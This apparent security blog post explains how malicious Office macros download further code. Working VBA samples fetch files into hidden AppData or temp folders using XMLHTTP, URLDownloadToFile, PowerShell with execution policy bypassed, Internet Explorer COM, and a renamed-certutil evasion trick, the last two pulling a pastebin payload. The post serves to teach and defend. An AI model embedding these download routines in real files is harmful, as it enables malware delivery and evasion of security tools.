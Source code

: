 ```yaml
---
layout: post
title: Office Docs, The Macro View
categories: [Malware, Macro's, VBA]
excerpt: Attackers often use Office Macros as a means to infect computers and download additional malicious code. In this post I'll explore the ways an attacker can use macros to download more content and we'll walk through some sample code.
---
```

(Estimated Reading Time: 7 minutes)

- [Why Attackers Use Office Macros](#why-attackers-use-office-macros)
- [Approaches To Downloading More Malicious Code](#approaches-to-downloading-more-malicious-code)
- [Resources](#resources)

## Why Attackers Use Office Macros

We all know Office Macro’s can be dangerous and can be used by attackers to download additional malware. In this blog post, I wanted to explorer the basic ways that Macro’s can be used to download additional code by looking at some basic example code. These types of documents are often referred to as MalDocs or Malicious Documents which I discussed during a prior post on [types of malware](https://cyber00011011.github.io/TypesOfMalware/#types-of-malware).  

Macros have become very popular in malware because they are easy to create and can be crafted into phishing messages to convince the user to run the macro. Despite security warning; the user will almost always click, “Enable Content” 

![MacroWarning](/images/macro_warning.PNG)

Microsoft Word, Excel, Publisher, and Power Point are all office document files that support including Visual Basic Applications (VBA) code as Macros. Microsoft hosts some good documentation here on getting started with [Macros in Office](https://docs.microsoft.com/en-us/office/vba/library-reference/concepts/getting-started-with-vba-in-office 
).  

## Approaches To Downloading More Malicious Code

There are three (maybe four) primary methods to download files using VBA Macros. The first is an XML HTTP Request (XHR), which is a method of fetching website data dynamically. Below is a very simple example of a VBA script to download the famous google logo image as a png and store it in the users home directory in a normally hidden folder, call AppData. An attacker could easily replace the image url here in this example with a malicious executable. 

```
Sub Download_File_XHR()

Dim myURL As String
myURL = "https://www.google.com/images/branding/googlelogo/1x/googlelogo_color_272x92dp.png"

Dim HttpReq As Object
Set HttpReq = CreateObject("Microsoft.XMLHTTP")
HttpReq.Open "GET", myURL, False
HttpReq.send

Dim output As String
output = Environ("AppData")

If HttpReq.Status = 200 Then
    Set oStream = CreateObject("ADODB.Stream")
    oStream.Open
    oStream.Type = 1
    oStream.Write HttpReq.responseBody
    oStream.SaveToFile output + "\google_image.png", 2
    oStream.Close
End If

End Sub 
```

The second method involves importing a specific features from a Windows API, and then calling that API. In this case we are importing the function URLDownloadToFile from the urlmon.dll library. This code will have the same effect as above and will download the google logo png to the users AppData folder.

```
Declare PtrSafe Function URLDownloadToFile Lib "urlmon" Alias "URLDownloadToFileA" _
(ByVal pCaller As Long, ByVal szURL As String, ByVal szFileName As String, _
ByVal dwReserved As Long, ByVal lpfnCB As Long) As Long

Sub Download_File_API()
    Dim myURL As String
    myURL = "https://www.google.com/images/branding/googlelogo/1x/googlelogo_color_272x92dp.png"

    Dim output As String
    output = Environ("AppData")
    output = output + "\google_image.png"
    
    Dim returnValue As Long
    returnValue = URLDownloadToFile(0, myURL, output, 0, 0)

End Sub
```

The previous two techniques will generate an outbound network connection from the Office executables which could appear as a red flag to a defender .The third method involves calling out to Powershell and using another program (in this case PowerShell) to download the desired file. Like the two examples above this code has the same end result of downloading the google logo into the AppData folder. In this example however you can clearly see PowerShell pop up and know that another process has been started. Attackers will typically get fancier then this example code and will often Encode parameters to hide URL's. The Windows 10, Attack Surface Reduction rule for [**Block all Office applications from creating child processes**](https://docs.microsoft.com/en-us/windows/security/threat-protection/microsoft-defender-atp/attack-surface-reduction#block-all-office-applications-from-creating-child-processes) would mitigate the below example as it would prevent Office from launching PowerShell.

```
Sub Download_File_Powershell()
    Dim output As String
    output = Environ("AppData")
    output = output + "\google_image.png"

    Dim psCode As String
    psCode = "invoke-webrequest -Uri 'https://www.google.com/images/branding/googlelogo/1x/googlelogo_color_272x92dp.png' -OutFile " + output + " -UseDefaultCredentials"

    Set objShell = CreateObject("Wscript.Shell")
    objShell.Run ("C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NoExit -executionpolicy bypass -command " + psCode)

End Sub
```

I mentioned a forth method, which could be using Excel 4.0 (XL4) macros. This is a legacy feature of Excel but attackers have figured out how to leverage the feature to Download additional files as well. I'm not going to give an example of this method today but will link to this article where you could [read more about this technique](https://www.lastline.com/labsblog/evolution-of-excel-4-0-macro-weaponization/).

Lastly, just a note of caution, Even though the above code is totally benign and not malicious my AV software decide to protect me from my own non-malicious example code.  When I saved the above samples into an Example.xlsm file Windows Defender saved me from myself. 

![AVProtection](/images/macro_example_triggers_av.PNG)

**Update:** As I was researching this topic further I stumbled upon two more methods to Download files using Macros over at f-secures blog. The two additional methods are fairly interesting. You can use Internet Explorer via COM to download a file. This will spawn a browser from svchost (not Office) to download a file.

```
Set ie = CreateObject("InternetExplorer.Application")
ie.Navigate "https://pastebin.com/raw/tcmMXwMG"
State = 0
Do Until State = 4
DoEvents
State = ie.readyState
Loop
Dim payload: payload = ie.Document.Body.innerHTML
```

and lastly the final method mentioned in f-secure's blog is a trick to use a system binary to download/execute a payload. This approach is really simple using the copyfile function.

```
Set fso = CreateObject("Scripting.FileSystemObject")
fso.copyfile "C:\Windows\System32\certutil.exe", Environ("TEMP") & "\CVR497F.tmp", True
Set obj = GetObject("new:C08AFD90-F2A1-11D1-8455-00A0C91F3880")
obj.Document.Application.ShellExecute "cmd", "/k cd %temp% && ren CVR497F.tmp CVR497F.com && CVR497F.com -ping https://pastebin.com/raw/tcmMXwMG > CVR31EF.tmp && del CVR497F.com", "", Null, 0
```
So in review we discussed 6 ways to use VBA Macro's to Download a file from the internet;
1. Make an XML HTTP Request (XHR)
2. Calling URLDownloadToFile Lib from urlmon
3. Calling out to PowerShell
4. Using legacy Excel 4.0 (XL4) macros
5. Call Internet Explorer via COM
6. Call a System Binary with copyfile


## Resources
* [Stackoverflow Discussion on Downloading File with VBA](https://stackoverflow.com/questions/17877389/how-do-i-download-a-file-using-vba-without-internet-explorer)
* [Dechaining-macros blog by F-Secure](https://blog.f-secure.com/dechaining-macros-and-evading-edr/)